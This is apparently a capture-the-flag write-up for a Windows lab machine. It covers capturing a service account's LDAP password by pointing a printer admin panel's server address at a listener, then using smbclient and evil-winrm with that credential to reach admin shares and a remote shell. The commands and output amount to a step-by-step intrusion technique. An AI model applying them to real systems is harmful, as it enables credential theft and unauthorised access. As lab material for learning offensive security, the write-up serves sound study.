






http://10.10.11.108/ - landing page for a printer Admin panel


http://10.10.11.108/settings.php - Settings page.
Unfortunately the password cannot be changed.


The password can't be revealed in the UI, it is baked in as asterisks.
```
    </div><center><h2><br/>Settings</h2>
    	<br/><br/><form action="[](view-source:http://10.10.11.108/settings.php)" method="POST">
        <table>
          <tr>
            <td>Server Address</td>
            <td><input type="text" name="ip" value="printer.return.local"/></td>
          </tr>
          <tr>
            <td>Server Port</td>
            <td><input type="text" value="389"/></td>
          </tr>
          <tr>
            <td>Username</td>
            <td><input type="text" value="svc-printer"/></td>
          </tr>
          <tr>
            <td>Password</td>
            <td><input type="text" value="*******"/></td>
          </tr>
```

Changing the password value to `password`, then updating the page doesn't seem to work.

# Burp
The `IP` field can be changed, and seems to the only value that is passed through.


Started a listener on the attacking machine, then set the `Server Address` to the attacking machine IP.


Got a connection!

# Got a credential
- username: svc-printer
- password: `1e<SNIP>2!!`

Ldap doesn't log in: 
```
└─$ ldapsearch -x -H ldap://printer.return.local:389 -D 'svc-printer' -w '1e<SNIP>!' -b "dc=return,DC=local"
ldap_bind: Invalid credentials (49)
        additional info: 80090308: LdapErr: DSID-0C09041C, comment: AcceptSecurityContext error, data 52e, v4563

```

### testing SMB
```
└─$ smbclient -L //10.10.11.108 -U svc-printer
Password for [WORKGROUP\svc-printer]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.108 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

### access
└─$ smbclient //10.10.11.108/ADMIN$ -U svc-printer         
Password for [WORKGROUP\svc-printer]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 27 05:49:07 2021
  ..                                  D   
```

### evil-winrm
```
└─$ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1e<SNIP>!!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                          
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                     
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 

```